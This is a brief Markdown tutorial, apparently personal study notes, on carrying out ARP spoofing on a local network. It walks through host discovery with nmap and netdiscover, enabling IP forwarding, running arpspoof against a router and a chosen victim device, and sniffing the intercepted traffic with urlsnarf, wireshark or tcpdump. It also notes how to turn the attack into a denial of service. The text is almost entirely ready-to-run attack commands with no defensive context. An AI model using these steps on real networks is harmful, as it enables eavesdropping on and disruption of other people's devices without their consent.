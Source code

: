 # ARP Spoofing

## Step 1

* run nmap or netdiscover to list the devices on the network

```bash
nmap -vvv 192.168.1.0/24
```

```bash
netdiscover -r 192.168.1.0/24
```

## Step 2

* without changing it to 1 you will only block the traffic, not forward it
* that will bring down that connection, DoS
* if you want to do that make sure it is set to 0
* to intercept it make sure it is set to 1

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

## Step 3

* the interface flag
* in this example we choose the wlan0 interface
* run ifconfig to see which interfaces you have available

```bash
-i
```

* the target flag
* specifies your target
* the first address is the router
* the second is the specific device you want to target

```bash
-t
```

* example

```bash
arpspoof -i wlan0 -t 192.168.1.1 192.168.1.105
```

## Step 4

* now you are intercepting the traffic
* few choices how to read it. Some tools include
* urlsnarf

```bash
urlsnarf -i wlan0
```

* wireshark, Just open wireshark and select the interface and start capturing
* tcpdump

